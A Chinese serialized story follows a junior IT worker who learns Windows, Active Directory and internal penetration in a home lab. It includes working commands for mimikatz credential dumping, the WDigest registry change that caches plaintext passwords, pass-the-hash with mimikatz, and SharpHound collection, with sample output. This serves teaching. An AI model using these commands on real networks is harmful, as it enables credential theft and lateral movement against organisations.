老周低着头，脸涨得通红。

张哥也低着头，不敢说话。

阿伟坐在最后一排，感觉浑身不自在。

虽然他只是个小兵，但王总说的"IT部门的人"，也包括他。

王总继续批评：

> "我问过安全公司的人了，人家说，我们的安全意识太差了！
> 弱密码遍地都是！
> 漏洞从来不补！
> 安全设备一个都没有！
> 
> 这能不被打穿吗？啊？
> 人家红队说，打我们公司，比打靶场还简单！
> 这话我听着都脸红！"

他顿了顿，看向老周：

> "老周，你是IT部经理，你说说，这到底是怎么回事？
> 我平时让你搞安全建设，你说没钱没人，我都理解。
> 但总不能一点都不搞吧？
> 这次护网，你们IT部门要负主要责任！"

老周抬起头，想说什么，又没说出来，只是叹了口气：

> "王总，是我的责任，我检讨。"

王总又看向张哥和阿伟：

> "还有你们两个，张哥你是老员工了，系统管理员，服务器你管的吧？
> 域控你管的吧？
> 怎么就让人家轻轻松松拿下来了？
> 
> 还有你，小伟是吧？刚毕业那个？
> 我听说是让你当蓝队成员，结果呢？
> 你能看懂人家在干嘛吗？"

所有的目光都集中到了阿伟身上。

阿伟的脸刷地一下就红了，头埋得低低的，恨不得找个地缝钻进去。

他想说什么，但张了张嘴，什么都说不出来。

因为王总说的是实话——他确实看不懂。

他甚至连对方是怎么进来的都不知道。

那一刻，他感觉自己像个透明人，又像个小丑。

自尊心，被踩得稀碎。

### 3.2 深夜的思考

总结会开完，阿伟浑浑噩噩地回到工位上。

一整天，他都没怎么说话。

同事们喊他修电脑，他也是木讷地去，木讷地回来。

他脑子里一直在回响着王总的话：

> "你能看懂人家在干嘛吗？"

是啊，他能看懂吗？

不能。

他甚至不知道人家用了什么工具，走了什么路径，就输了。

输得一败涂地。

晚上下班，阿伟没有像往常一样直接回家。

他在公司楼下的长椅上坐了很久。

夏天的夜晚，有点闷热，蚊子很多。

但他浑然不觉。

他在想：我这份工作，到底有什么意义？

装系统、修电脑、接网线、搞打印机... 这些活儿，随便找个人培训俩月都能干。

他一个本科毕业的计算机专业学生，难道就一辈子干这个？

不行，不能这样下去。

他要学东西，学真正有技术含量的东西。

学什么呢？

他脑子里闪过护网期间听到的那些词：

Web渗透、内网渗透、域渗透、mimikatz、BloodHound...

要不，学安全？

学渗透测试？

这个好像... 挺厉害的。

但是，他能学会吗？

他连域控是什么都没搞明白呢。

而且，学安全是不是很难？要学很多东西吧？

要编程吗？要英语很好吗？

他心里没底。

但转念一想——

难又怎么样？

难道一辈子当网管吗？

被领导当着全公司的面批评，那种滋味，他不想再尝第二次了。

他要变强。

就算成不了什么大神，至少，下次再遇到这种事，他不能再像个傻子一样站在旁边，什么都看不懂。

**对，学！**

从今天开始，学内网渗透，学域渗透！

就算再难，也要啃下来！

阿伟猛地站起来，拍了拍屁股上的灰，眼神坚定。

他不知道的是，这个决定，将彻底改变他的人生轨迹。

---

## 📚 第四回：从零开始，啃Windows基础和AD域

### 4.1 学习路径规划

说干就干。

阿伟是个行动派，一旦决定了，就马上开始。

但是，从哪开始呢？

他打开百度，搜了一下"内网渗透 学习路线"，结果搜出来一堆东西，看得他眼花缭乱。

什么Web渗透、提权、横向移动、域渗透、免杀... 一大堆名词，他都不懂。

他又去B站搜了一下，找了几个"内网渗透入门"的视频，看了半天，越看越懵。

这些视频上来就讲怎么拿webshell，怎么提权，怎么用mimikatz抓密码...

但是他连基础概念都不懂啊！

什么是哈希？什么是Kerberos？什么是SID？什么是组策略？

这些基础的东西没人讲，视频里的人好像默认你都懂一样。

阿伟有点受挫。

但他没有放弃。

他想，既然是学内网渗透，那首先得把Windows系统搞明白吧？

还有AD域，这个是核心，必须搞懂。

他给自己制定了一个学习计划：

**图121-5 阿伟的学习计划（初期）**



计划很简单：先把基础打牢，再学攻击技术。

就像盖房子，地基打不稳，盖再高也会塌。

### 4.2 Windows基础：原来我以前都白学了

阿伟先从Windows基础开始学。

他本来以为，自己干了一年运维，Windows应该挺熟的了。

结果一学才发现，他以前懂的那点东西，连皮毛都算不上。

比如用户和组：

他以前只知道有管理员用户、普通用户，知道有Administrators组、Users组。

但是学了才知道，Windows里的用户和组，名堂多着呢：

```
👤 用户账号类型：
- 本地用户：只存在于这台电脑上
- 域用户：存在于域控上，可以在所有域内电脑上登录
- 内置用户：系统自带的，比如Administrator、Guest、SYSTEM...

👥 组的类型：
- 本地组：只在这台电脑上有效
- 域本地组：域内使用，权限范围是本域
- 全局组：域内使用，权限范围可以是整个林
- 通用组：整个林都有效
- 安全组：用来分配权限
- 分发组：用来发邮件，不能分配权限
```

还有权限：

什么NTFS权限、共享权限、用户权限分配...

他以前只知道"管理员权限最大"，具体大在哪，怎么分配的，完全不清楚。

> 💡 **阿伟的学习笔记：Windows常用的内置组**
> ```
> 本地组：
> - Administrators        管理员组，权限最大
> - Users                 普通用户组，权限受限
> - Guests                来宾组，权限最小
> - Power Users           高级用户组（Win7以后基本没用了）
> - Remote Desktop Users  远程桌面用户组
> - Backup Operators      备份操作员组
> - Network Configuration Operators  网络配置操作员组
> 
> 域内组：
> - Domain Admins         域管理员组，权限极大
> - Enterprise Admins     企业管理员组，林范围的管理员
> - Schema Admins         架构管理员组，能修改AD架构
> - Domain Users          域用户组，所有域用户默认都在里面
> - Domain Computers      域内计算机组
> - Domain Controllers    域控组
> - Account Operators     账号操作员组，能管理用户账号
> - Backup Operators      备份操作员组
> - Server Operators      服务器操作员组
> - Print Operators       打印操作员组
> ```

还有Windows的常用命令：

他以前只会用ipconfig、ping、net user这些简单的。

学了才知道，Windows的命令行工具多着呢：

```cmd
:: 系统信息
systeminfo          :: 查看系统详细信息
whoami              :: 查看当前用户
whoami /priv        :: 查看当前用户权限
whoami /all         :: 查看当前用户所有信息（SID、组、权限...）

:: 用户和组管理
net user            :: 查看本地用户列表
net user 用户名     :: 查看用户详细信息
net localgroup      :: 查看本地组列表
net localgroup 组名 :: 查看组成员

:: 域相关命令
net user /domain            :: 查看域用户列表（需要权限）
net group /domain           :: 查看域组列表
net group "Domain Admins" /domain :: 查看域管理员组成员
net view /domain            :: 查看域内计算机列表
nltest /dclist:域名         :: 查看域控列表
nltest /dsgetdc:域名        :: 查看当前登录的域控
echo %logonserver%          :: 查看当前登录的域控

:: 网络相关
ipconfig /all       :: 查看网络配置
netstat -ano        :: 查看网络连接
route print         :: 查看路由表
arp -a              :: 查看ARP表

:: 进程和服务
tasklist            :: 查看进程列表
tasklist /svc       :: 查看进程对应的服务
net start           :: 查看启动的服务
sc query            :: 查看服务详细信息
sc qc 服务名        :: 查看服务配置

:: 其他常用
reg query 注册表路径 :: 查看注册表
gpresult /r         :: 查看当前用户应用的组策略
gpupdate /force     :: 强制刷新组策略
```

阿伟学得很认真，一边学一边做笔记。

他还专门买了个笔记本，把学到的命令和概念都记下来，没事就翻一翻。

那段时间，他下班回家，吃完饭就坐在电脑前学，学到十一二点才睡觉。

周末也不出去玩了，在家学技术。

同事喊他聚餐，他也不去了。

整个人像着了魔一样。

### 4.3 AD域：从"是什么"到"为什么"

Windows基础学了大概半个月，阿伟感觉差不多了，开始学AD域。

AD，全称Active Directory，活动目录。

这个东西，他干运维的时候天天接触，但一直没搞明白到底是啥。

现在系统学习了，才慢慢有了概念。

> 💡 **阿伟的学习笔记：AD域基础概念**
> ```
> 什么是活动目录（Active Directory）？
> - 微软开发的目录服务
> - 用来存储网络上的资源信息（用户、计算机、打印机、共享文件夹...）
> - 提供统一的身份认证和权限管理
> - 说白了就是：网络资源的"电话簿" + "管理员"
> 
> 什么是域（Domain）？
> - AD的基本管理单元
> - 一个域就是一个安全边界
> - 同一个域里的资源，由同一个域控管理
> 
> 什么是域控制器（Domain Controller，DC）？
> - 运行了Active Directory域服务（AD DS）的服务器
> - 存储着AD数据库（ntds.dit）
> - 负责认证用户、管理资源、同步数据
> - 一个域可以有多台域控，互相备份
> 
> 什么是林（Forest）？
> - 一个或多个域树组成林
> - 林是AD的顶级容器
> - 同一个林里的域，默认有双向信任关系
> 
> 什么是域树（Tree）？
> - 一个或多个域组成域树
> - 同一个域树里的域，共享连续的命名空间
>   比如：corp.xxx.com 和 sales.corp.xxx.com
> 
> 什么是OU（组织单元）？
> - 域里的容器，用来组织和管理对象
> - 可以把用户、计算机、组等对象放到OU里
> - 组策略可以链接到OU上，实现批量管理
> - OU可以嵌套，就像文件夹一样
> 
> 什么是组策略（Group Policy）？
> - 批量管理用户和计算机配置的工具
> - 组策略对象（GPO）链接到站点、域或OU上
> - 链接到的容器下的用户和计算机，都会应用这个GPO
> - 可以配置的东西很多：安全设置、软件部署、脚本、文件夹重定向...
> ```

光这些概念，阿伟就记了满满好几页。

以前他似懂非懂的东西，现在慢慢清晰起来了。

比如，为什么DNS必须设成域控的IP？

因为AD域高度依赖DNS，域内的计算机要靠DNS来找到域控，来解析各种服务记录（SRV记录）。

如果DNS不对，就找不到域控，自然就加不了域，也登录不了域。

再比如，为什么有两台域控？

因为要做高可用啊。一台坏了，还有另一台能用，而且两台之间会自动同步数据。

这种"哦，原来如此"的感觉，让阿伟学得越来越起劲。

### 4.4 第一次搭域环境：踩坑无数

光学理论不行，得动手实践。

阿伟决定，自己搭一个域环境出来，亲手操作一遍，这样印象才深刻。

他在自己的电脑上装了VMware虚拟机，打算搭一个最简单的域环境：

**图121-6 阿伟计划搭建的实验环境**



一台域控，两台Win10客户端，一台成员服务器。

看起来很简单对吧？

阿伟也是这么想的。

结果真搭起来，踩了无数的坑。

**坑一：系统版本不对**

阿伟一开始图省事，找了个Windows Server 2012的镜像就装上了。

结果装AD域服务的时候，老是报错。

查了半天，才知道是系统版本的问题——他下的那个镜像，是被人精简过的，缺了很多组件。

没办法，重新找镜像，重新下，重新装。

一来一回，一天就过去了。

**坑二：IP地址和DNS配置不对**

装完系统，开始配置IP。

阿伟记得张哥说过，DNS要设成域控自己的IP。

他就把DNS设成了127.0.0.1（本机回环地址）。

结果装AD域服务的时候，提示DNS有问题。

他又查了半天，才搞明白：

> DNS可以设成127.0.0.1，但最好先设成自己的静态IP，然后再加一个127.0.0.1作为备用。
> 而且，IP必须是静态的，不能是DHCP自动获取的。

他又重新配置了一遍，设了静态IP：10.0.0.10，DNS首选：10.0.0.10，备用：127.0.0.1。

这次总算对了。

**坑三：域名后缀随便起**

阿伟图省事，把域名设成了`test.com`。

结果装完之后，客户端加域的时候老是失败。

查了半天，才发现是因为`test.com`这个域名，公网上真的存在，DNS解析的时候会先去公网查，找不到才会查本地。

乱七八糟的问题一大堆。

后来他看教程，人家都是用`.local`或者`.lan`这种内网专用的后缀。

他又把域控重装了一遍，域名改成了`testlab.local`。

这次总算正常了。

> 💡 **搭域环境的小Tips（阿伟踩坑总结）：**
> ```
> 1. 域控的IP必须是静态的，不能用DHCP
> 2. DNS首选指向自己的IP，备用可以用127.0.0.1
> 3. 域名建议用.local、.lan等内网专用后缀，不要用.com、.net这种公网后缀
> 4. 计算机名最好提前改好，装完AD再改会很麻烦
> 5. 安装的时候，选择"新林"，不要选"现有林"
> 6. 林功能级别和域功能级别，选最新的就行
> 7. DSRM密码一定要记好，忘了很麻烦
> 8. 装完之后一定要重启
> 9. 客户端加域之前，先把DNS设成域控的IP
> 10. 加域失败的话，先检查网络通不通，再检查DNS对不对
> ```

就这样，踩一个坑，填一个坑，折腾了整整三天，阿伟总算把域环境搭起来了。

当他第一次用域账号登录Win10客户端的时候，那种成就感，难以言喻。

虽然只是个最最简单的域环境，但这是他亲手搭起来的！

那一刻，他觉得，自己离"域渗透"的目标，又近了一步。

### 4.5 域环境日常管理：练手

搭完环境，不能就放那儿吃灰啊，得用起来。

阿伟开始在自己的实验环境里，练习各种域管理操作。

比如创建OU：

```cmd
:: 用命令行创建OU（也可以用图形界面dsa.msc）
dsadd ou "OU=北京分公司,DC=testlab,DC=local"
dsadd ou "OU=技术部,OU=北京分公司,DC=testlab,DC=local"
dsadd ou "OU=销售部,OU=北京分公司,DC=testlab,DC=local"
dsadd ou "OU=财务部,OU=北京分公司,DC=testlab,DC=local"
```

比如创建用户：

```cmd
:: 创建域用户
dsadd user "CN=张三,OU=技术部,OU=北京分公司,DC=testlab,DC=local" -upn zhangsan@testlab.local -pwd P@ssw0rd -display "张三" -pwdneverexpires yes

:: 查看域用户
net user zhangsan /domain
```

比如创建安全组，把用户加进去：

```cmd
:: 创建安全组
dsadd group "CN=技术部运维组,OU=技术部,OU=北京分公司,DC=testlab,DC=local" -secgrp yes -scope g

:: 把用户加入组
net group "技术部运维组" zhangsan /add /domain

:: 查看组成员
net group "技术部运维组" /domain
```

比如配置组策略：

他跟着教程，学着用组策略统一桌面背景、统一映射网络驱动器、配置密码策略、配置登录脚本...

虽然都是一些基础操作，但每做成一个，他都很有成就感。

**图121-7 阿伟的实验环境结构**



就这样，阿伟一边学理论，一边在虚拟机里练手。

学了一个多月，他对AD域的理解，跟以前完全不一样了。

以前他只知道"加域"、"重置密码"这些操作，现在他知道了背后的原理。

比如为什么改密码要等一会儿才能生效？因为域控之间同步需要时间。

比如为什么有些设置改了，电脑上不生效？因为组策略有刷新间隔，得等刷新，或者用gpupdate /force手动刷新。

比如为什么有的用户登录这台电脑可以，登录那台不行？因为组策略里限制了登录权限。

这种"知其然，也知其所以然"的感觉，让他觉得很充实。

但是，他也知道，这才刚刚开始。

他的目标是域渗透，不是域管理。

搞懂了域是怎么回事，接下来，就要学怎么"打"域了。

---

## 🕵️ 第五回：mimikatz和哈希传递，被各种概念搞懵

### 5.1 第一次听说mimikatz

AD域基础学得差不多了，阿伟开始正式学内网渗透。

他在B站找了一套"内网渗透从入门到精通"的视频，开始跟着学。

前几节课讲的是内网信息收集、代理转发这些，他还能听懂。

直到讲到"凭证窃取"，提到了mimikatz。

老师在视频里说：

> "mimikatz是内网渗透神器，法国人写的，功能非常强大。
> 可以用来抓明文密码、抓哈希、抓Kerberos票据、做哈希传递、做票据传递...
> 总之，内网渗透离不开mimikatz。"

然后老师演示了一下，用mimikatz抓了系统里的明文密码。

阿伟看傻了。

什么？居然能直接从内存里把明文密码抓出来？

这也太... 离谱了吧？

他赶紧去搜了一下mimikatz，了解了一下这个工具的背景。

> 💡 **关于mimikatz（阿伟的笔记）：**
> ```
> mimikatz是什么？
> - 法国人Benjamin Delpy（@gentilkiwi）写的轻量级调试工具
> - 最初是用来研究Windows安全机制的
> - 后来变成了内网渗透神器
> - 功能：提取明文密码、哈希、PIN码、Kerberos票据
>       哈希传递、票据传递、Pass-the-Key...
>       甚至可以伪造票据、提权...
> 
> 为什么能抓到明文密码？
> - Windows系统里，有个进程叫lsass.exe（本地安全机构子系统服务）
> - 这个进程负责本地安全策略、用户认证、审计等
> - 用户登录的时候，密码会存在lsass.exe的内存里
>   （为了方便后续的认证，比如访问共享、远程桌面等）
> - mimikatz就是通过读取lsass.exe的内存，把密码提取出来
> 
> 注意：
> - mimikatz需要管理员权限才能运行
> - Windows 8.1 / Server 2012 R2 之后，默认不缓存明文密码了
>   但是可以通过修改注册表，让它继续缓存（俗称"喂猫"）
> - 就算抓不到明文，也能抓到NTLM哈希，一样可以用
> ```

阿伟看完，既兴奋又紧张。

兴奋的是，这个工具好厉害啊，居然能直接抓密码。

紧张的是，原来Windows这么不安全吗？管理员权限就能抓密码？

那他以前管的那些服务器，岂不是...

他不敢往下想了。

### 5.2 第一次用mimikatz：抓不到明文？

光看视频不行，得自己动手试试。

阿伟在他的实验环境里，找了台Windows 10的虚拟机，打算用mimikatz试试。

他先去GitHub上下载了mimikatz。

然后以管理员身份运行cmd，进入mimikatz的目录。

他学着视频里的样子，敲了几个命令：

```cmd
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

然后... 结果出来了。

用户名有，SID有，但是密码那一栏，是空的。

只有NTLM Hash和SHA1 Hash有值。

"嗯？怎么回事？为什么没有明文密码？"阿伟纳闷了。

视频里明明有的啊！

他又仔细看了一遍视频，哦，视频里用的是Windows 7系统。

他用的是Windows 10。

对了，教程里好像说过，Windows 8.1之后，默认不缓存明文密码了。

那怎么办？

他又搜了一下，找到了方法——修改注册表，让系统缓存明文密码。

也就是所谓的"喂猫"。

```cmd
:: 修改注册表，开启WDigest认证（让系统缓存明文密码）
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

:: 修改完之后，需要用户重新登录，密码才会被缓存
```

阿伟照着操作了一遍，改了注册表，然后把虚拟机重启，重新登录。

再运行mimikatz：

```cmd
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
...
Authentication Id : 0 ; 312598 (00000000:0004c4d6)
Session           : Interactive from 1
User Name         : zhangsan
Domain            : TESTLAB
Logon Server      : DC01
Logon Time        : 2024/6/15 20:15:22
SID               : S-1-5-21-xxxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-1103
        msv :
         [00000003] Primary
         * Username : zhangsan
         * Domain   : TESTLAB
         * NTLM     : 32ed87bdb5fdc5e9cba88547376818d4
         * SHA1     : 63897265e7d138f5a7e5d7e7a4b9e1c4e6a3b2c1
        wdigest :
         * Username : zhangsan
         * Domain   : TESTLAB.LOCAL
         * Password : P@ssw0rd
        kerberos :
         * Username : zhangsan
         * Domain   : TESTLAB.LOCAL
         * Password : P@ssw0rd
...
```

有了！wdigest和kerberos下面都有明文密码了！

阿伟激动得一拍桌子。

成功了！

他真的用mimikatz抓到明文密码了！

虽然只是在自己的实验环境里，但那种成就感，无以言表。

### 5.3 哈希传递：不用密码也能登录？

抓完密码，下一个知识点，就是哈希传递（Pass-the-Hash，简称PtH）。

这个概念，阿伟在护网的时候就听李工他们说过，一直没搞懂。

现在终于可以系统学习了。

> 💡 **什么是哈希传递？（阿伟的学习笔记）**
> ```
> 哈希传递（Pass-the-Hash，PtH）
> 
> 原理：
> - Windows系统中，用户的密码不是明文存储的，而是存储为NTLM哈希
> - 在进行网络认证（比如访问共享文件夹、远程桌面、WMI等）的时候
>   系统用的也是NTLM哈希来进行认证，而不是明文密码
> - 那如果你拿到了某用户的NTLM哈希，就算不知道明文密码
>   也可以用这个哈希来进行认证，登录到其他机器上
> - 这就叫哈希传递
> 
> 为什么会有这个问题？
> - 这是NTLM认证协议的设计缺陷
> - 协议本身就是这么设计的，所以很难从根本上修复
> - 微软也出过一些补丁（比如KB2871997），但不能完全防御
> 
> 哈希传递的条件：
> - 需要知道目标用户的NTLM哈希
> - 需要有目标机器的网络访问权限（网络通，端口开放）
> - 目标用户在目标机器上有权限（比如是管理员）
> 
> 常用的哈希传递工具：
> - mimikatz（自带pth功能）
> - impacket套件（psexec.py、wmiexec.py、smbexec.py...）
> - CrackMapExec（CME）
> - FreeRDP（远程桌面哈希传递）
> 
> 注意：
> - 哈希传递只能用NTLM哈希，不能用SHA1哈希
> - 哈希传递主要针对Windows系统
> - 域环境下，哈希传递更常见，因为域用户可以登录多台机器
> ```

阿伟看完，恍然大悟。

原来如此！

怪不得护网的时候，对方拿了一个普通用户的权限，就能一路横推到域控。

因为他们用哈希传递啊！

拿到一个管理员的哈希，就能登录所有他有权限的机器。

这也太bug了吧？

他赶紧在自己的实验环境里试了试。

实验环境里有两台Win10：
- WIN10-01：IP 10.0.0.101，用zhangsan登录，已经用mimikatz抓到了zhangsan的哈希
- WIN10-02：IP 10.0.0.102，zhangsan也是这台机器的本地管理员

他打算从WIN10-01，用哈希传递登录到WIN10-02。

跟着教程，他用了mimikatz的pth功能：

```cmd
:: 在WIN10-01上运行mimikatz
mimikatz # privilege::debug
Privilege '20' OK

:: 进行哈希传递，会弹出一个新的cmd窗口，这个窗口里的命令都是用传递的哈希执行的
mimikatz # sekurlsa::pth /user:zhangsan /domain:WORKGROUP /ntlm:32ed87bdb5fdc5e9cba88547376818d4
user    : zhangsan
domain  : WORKGROUP
program : cmd.exe
impers. : no
NTLM    : 32ed87bdb5fdc5e9cba88547376818d4
  |  PID  2048
  |  TID  2052
  |  LUID 0 ; 346821 (00000000:00054a45)
  \_ msv1_0 - data copy @ 000001A3B5D2C7A0 : OK !
  \_ kerberos - data copy @ 000001A3B5D32A50
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
  \_  @message 000001A3B5D279D0 : msv1_0
  \_  @message 000001A3B5D2A2E0 : kerberos
```

果然弹出了一个新的cmd窗口！

然后在这个新窗口里，他尝试访问WIN10-02的共享：

```cmd
C:\Windows\system32> net use \\10.0.0.102\c$
命令成功完成。
```

成功了！

不用输入密码，直接就能访问对方的C盘共享！

阿伟激动得手都有点抖。

太神奇了！

他只是拿到了一个哈希值，居然就能直接登录对方的机器！

这一刻，他真正感受到了内网渗透的魅力——也感受到了它的可怕。

如果这是在真实环境里... 不敢想。

### 5.4 各种概念扑面而来：Kerberos、票据、黄金票据...

哈希传递学完，阿伟还没来得及消化，更难的东西来了——Kerberos协议。

这个协议，他以前听都没听说过。

学了才知道，原来Windows域环境里，主要的认证协议不是NTLM，而是Kerberos。

什么是Kerberos？

> 💡 **Kerberos协议入门（阿伟的学习笔记，看完还是懵的）：**
> ```
> Kerberos是什么？
> - 一种网络认证协议，用票据（Ticket）来进行认证
> - 域环境下默认用Kerberos认证
> - 名字来源于希腊神话里的地狱三头犬（三个头分别代表：客户端、服务端、KDC）
> 
> Kerberos的三个角色：
> 1. Client（客户端）：要访问服务的用户
> 2. Server（服务端）：提供服务的服务器
> 3. KDC（密钥分发中心）：域控，负责发放票据
>    - AS（认证服务）：发放TGT票据（票据授予票据）
>    - TGS（票据授予服务）：发放ST票据（服务票据）
> 
> Kerberos认证的大致流程（简化版）：
> 1. 用户输入账号密码登录，客户端向KDC的AS请求TGT
> 2. AS验证用户身份，给用户返回一个TGT
> 3. 用户想访问某个服务，就拿着TGT向KDC的TGS请求ST（服务票据）
> 4. TGS验证TGT，给用户返回ST
> 5. 用户拿着ST去访问服务
> 6. 服务验证ST，通过了就让用户访问
> 
> 关键票据：
> - TGT（Ticket Granting Ticket）：票据授予票据，有效期一般8小时
>   有了TGT，才能申请ST
> - ST（Service Ticket）：服务票据，用来访问具体的服务
>   不同的服务有不同的ST
> 
> 相关的攻击手法：
> - 票据传递（Pass-the-Ticket）：拿到别人的票据，直接用
> - Kerberoasting：请求服务票据，离线破解，拿到服务账号的密码
> - AS-REP Roasting：针对不需要预认证的用户，拿到加密的AS-REP，离线破解
> - 黄金票据（Golden Ticket）：伪造TGT，想访问什么服务就访问什么服务
> - 白银票据（Silver Ticket）：伪造ST，访问特定的服务
> - ...还有很多
> ```

阿伟看完，脑袋都大了。

什么TGT、ST、KDC、AS、TGS... 一堆名词，听得他晕头转向。

什么黄金票据、白银票据... 听着就很高端，但他完全听不懂。

Kerberos这个东西，怎么这么难啊？

他连着看了好几个视频，又看了好几篇博客，才算对Kerberos有了个大概的了解。

虽然还是懵懵懂懂的，但至少知道是怎么回事了。

他安慰自己：没事，慢慢来，先知道有这么个东西，以后用多了自然就懂了。

### 5.5 学不完的工具和技术

除了mimikatz和哈希传递，阿伟还接触到了一大堆新工具：

- **Impacket套件**：一堆Python脚本，psexec.py、wmiexec.py、smbexec.py、secretsdump.py、GetUserSPNs.py、GetNPUsers.py... 每一个都很强大
- **CrackMapExec（CME）**：内网渗透瑞士军刀，批量扫、批量撞、批量执行命令...
- **BloodHound**：域渗透神器，可视化域内关系，自动找攻击路径
- **MSF（Metasploit Framework）**：渗透测试框架，功能强大
- **CS（Cobalt Strike）**：红队神器，团队协作
- ...

每一个工具，都够他学好久的。

而且，每一个工具背后，都对应着一堆知识点。

那段时间，阿伟感觉自己就像海绵一样，疯狂地吸收着新知识。

但是，东西太多了，他经常学了这个忘了那个。

笔记记了满满一本，但真到用的时候，还是得翻笔记。

他有时候会怀疑自己：我是不是太笨了？这些东西怎么总是记不住？

但转念一想，谁刚开始学不是这样呢？

慢慢来，总会学会的。

---

🗺️ 第六回：BloodHound初体验，找到攻击路径的兴奋

### 6.1 听说BloodHound

学了几个月内网渗透，阿伟对域渗透还是感觉摸不着头脑。

域这么大，用户这么多，机器这么多，从哪下手啊？

总不能一台一台去试吧？

直到有一天，他在视频里看到了BloodHound。

老师说：

> "BloodHound是域渗透神器，没有之一。
> 它能把整个域的关系都可视化出来，用户、组、计算机、OU...
> 而且它能自动帮你找攻击路径，告诉你怎么从一个普通用户，一步步打到域控。
> 可以说，有了BloodHound，域渗透就成功了一半。"

阿伟听得眼睛都直了。

这么厉害？

还能自动找攻击路径？

那岂不是傻瓜式操作？

他赶紧去搜了一下BloodHound。

> 💡 **BloodHound是什么？（阿伟的学习笔记）**
> ```
> BloodHound是什么？
> - 一个用JavaScript写的单页应用，基于Neo4j数据库
> - 用来可视化Active Directory域内的关系
> - 能自动分析和展示域内的攻击路径
> - 由红队队员开发，现在已经是域渗透必备工具了
> 
> 它能做什么？
> - 展示域内所有的用户、组、计算机、OU、GPO...
> - 展示它们之间的关系（谁属于哪个组、谁登录过哪台机器、谁对谁有什么权限...）
> - 自动找出从当前用户到域管理员/域控的最短攻击路径
> - 支持各种Cypher查询，想查什么查什么
> - 有很多内置的查询，比如：
>   * 找出所有域管理员
>   * 找出所有可以Kerberoast的用户
>   * 找出所有有约束委派的用户/机器
>   * 找出从A到B的最短攻击路径
>   * ...还有很多
> 
> 工作原理：
> 1. 先用数据收集器（SharpHound.ps1 或者 SharpHound.exe）在域内收集信息
> 2. 把收集到的数据导入BloodHound（Neo4j数据库）
> 3. 然后就可以在界面上可视化查询了
> 
> 为什么叫BloodHound（猎犬）？
> - 因为它就像猎犬一样，能帮你"嗅探"出攻击路径
> - 很形象对吧？
> ```

阿伟看完，迫不及待想试试。

### 6.2 搭环境又是一顿踩坑

说干就干，阿伟开始搭BloodHound环境。

BloodHound需要Neo4j数据库，还得装Java环境。

他跟着教程，一步步来。

结果又是踩了一堆坑。

**坑一：Java版本不对**

Neo4j对Java版本有要求，不是随便哪个版本都行。

阿伟一开始装了最新的Java 17，结果Neo4j启动不了。

查了半天，才知道他下的那个版本的Neo4j需要Java 11。

又得卸掉重装。

**坑二：Neo4j启动失败**

Java装对了，Neo4j还是启动不了。

报错说什么"无法找到主类"之类的。

他又查了半天，才发现是路径有中文的问题。

他把Neo4j放在了"D:\工具\neo4j"下面，路径里有中文，就不行。

改成"D:\tools\neo4j"就好了。

**坑三：BloodHound连接不上Neo4j**

Neo4j启动了，BloodHound也装上了，但是连接不上。

提示连接失败。

他又折腾了半天，才搞明白：

> Neo4j默认有个初始密码，第一次登录得改密码。
> 得先用浏览器访问http://localhost:7474，登录进去改了密码，BloodHound才能连。

改完密码，总算连上了。

阿伟长出了一口气。

搭个环境怎么这么难啊...

但他知道，这都是必经之路。

谁学新东西不踩坑呢？

### 6.3 收集数据，导入BloodHound

环境搭好了，接下来就是收集数据。

BloodHound需要用SharpHound来收集域内的信息。

SharpHound有两种形式：PowerShell脚本（SharpHound.ps1）和EXE可执行文件（SharpHound.exe）。

阿伟在他的实验环境里，找了台加了域的Win10，用普通域用户登录，然后运行SharpHound：

```cmd
:: 用SharpHound收集所有信息
SharpHound.exe -c All

:: 或者用PowerShell版本
powershell -exec bypass -Command "Import-Module .\SharpHound.ps1; Invoke-BloodHound -CollectionMethod All"
```

运行完之后，生成了一个.zip文件。

阿伟把这个文件拷贝出来，导入到BloodHound里。

导入成功的那一刻，界面上出现了密密麻麻的节点和连线。

**图121-8 BloodHound界面示意图**



阿伟看着屏幕上这张错综复杂的图，惊呆了。

这就是他的实验环境？

才几台机器、几个用户，就已经这么复杂了？

那真实的企业环境，成百上千台机器，那得复杂成什么样？

他一时间有些眼花缭乱。

### 6.4 第一次用BloodHound找攻击路径

震惊归震惊，正事还是得干。

阿伟按照教程，开始尝试用BloodHound找攻击路径。

首先，他得先给自己的实验环境设计一个"场景"。

不然几台机器都是独立的，也没什么路径好找。

他先在域控上做了一些配置：

1. 创建了几个用户：zhangsan（普通用户）、lisi（普通用户）、wangwu（服务器管理员）
2. 创建了一个组："服务器运维组"，把wangwu加进去
3. 给"服务器运维组"分配了WEB01这台服务器的本地管理员权限
4. 把WEB01这台机器的域管理员配置了一下，让zhangsan对WEB01有"GenericAll"权限（就是完全控制）

这样，就有了一条攻击路径：

> zhangsan → 对WEB01有GenericAll权限 → 可以在WEB01上执行命令 → WEB01上登录过wangwu → 拿到wangwu的哈希 → wangwu是服务器运维组 → 服务器运维组是很多服务器的管理员 → ... → 域管理员 → 域控

虽然是他自己故意设计的，但也够练手了。

配置完之后，他重新运行了一遍SharpHound，收集新的数据，重新导入BloodHound。

然后，他在BloodHound里，找到zhangsan这个用户节点，右键选择"Shortest Paths to Domain Admins"（到域管理员的最短路径）。

几秒钟后，界面上出现了一条红色的路径！

**图121-9 BloodHound攻击路径示意图（简化版）**



真的找到了！

BloodHound真的把攻击路径给他画出来了！

阿伟盯着屏幕，心脏砰砰直跳。

虽然这是他自己故意设置的场景，但当BloodHound把这条路径清清楚楚地摆在他面前的时候，他还是感到了一种震撼。

太牛了！

这就是BloodHound的威力吗？

不用你自己去猜，不用你一台一台去试，它直接把最短攻击路径给你画出来！

他仿佛打开了一扇新世界的大门。

原来域渗透是这么玩的！

以前他觉得域渗透深不可测，现在好像... 也不是那么遥不可及？

有了BloodHound，就像有了一张地图，还自带导航。

你只需要顺着它指的路，一步步走就行了。

当然，说起来简单，真要走通每一步，还是需要很多技术的。

但至少，方向有了。

阿伟越想越兴奋。

他迫不及待地想试试，能不能顺着这条路径，真的打到域控。

他研究着BloodHound里的每一条边、每一个节点，琢磨着每一步该怎么打。

GenericAll是什么意思？怎么利用？

AdminTo是什么意思？能做什么？

ForceChangePassword呢？AddMember呢？DCSync呢？

